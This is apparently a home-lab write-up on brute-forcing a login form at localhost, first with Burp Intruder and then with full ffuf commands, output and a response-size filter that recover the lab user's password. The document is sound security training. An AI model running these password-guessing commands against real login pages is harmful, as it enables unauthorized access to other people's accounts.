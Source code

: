 # Attacking Authentication - Brute Force

- We have a login form with the user account named "Jeremy".

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cb006310-f3a7-4490-a15f-08002bf63320)


- We need brute-forcing to crack the password of a user named "Jeremy"
- For this let's intercept the request to the Burp suite.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/809df1c7-3f30-43f8-9acb-eadc92ea5337)


- After sending a request to the intruder we selected the payload password parameter by clicking on Add.
- Next step is to add a wordlist to start the brute-forcing the password on the user "Jeremy"

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a55dbd36-74d2-45cc-af29-9a19d6fec711)

- On adding the wordlist as the payload of passwords we selected Start attack.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/b1a0b5f7-2903-4c29-97f1-b3668a9f1bd7)

- There is a page length difference in the result hope we have got our password successfully

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a2eaf728-e979-4808-8487-b7c922322c49)

- On trying with username `jeremy` and password `letmein` we got successfully logged in.

## Alternate

- To make the process brute-forcing faster we will copy the intercepted request and copy it to a file in the local machine.
- Make a change in copied request by renaming the password parameter to "FUZZ" and saving it.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/1b0d0668-9795-4b3f-9766-1395eef0a1e6)

- Now, we use a tool named "FFUF" to make the brute-forcing process faster.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt`

```bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Origin: http://localhost
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 20ms]
    * FUZZ: letmein

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 20ms]
    * FUZZ: qwerty

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: password

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 47ms]
    * FUZZ: baseball

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: superman

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: zxcvbnm

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: 12345
------------snip------------------
[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: 222333

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 13ms]
    * FUZZ: armani

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: attack

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: anhyeuem

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: zenith

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: thomas1

[WARN] Caught keyboard interrupt (Ctrl-C)
```

- It is making numerous requests per second we need to filter out the "size: 1814" for getting clean results.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`

``` bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://localhost
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Host: localhost
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 4ms]
    * FUZZ: letmein

:: Progress: [10000/10000] :: Job [1/1] :: 3846 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
- We successfully cracked the password "letmein".
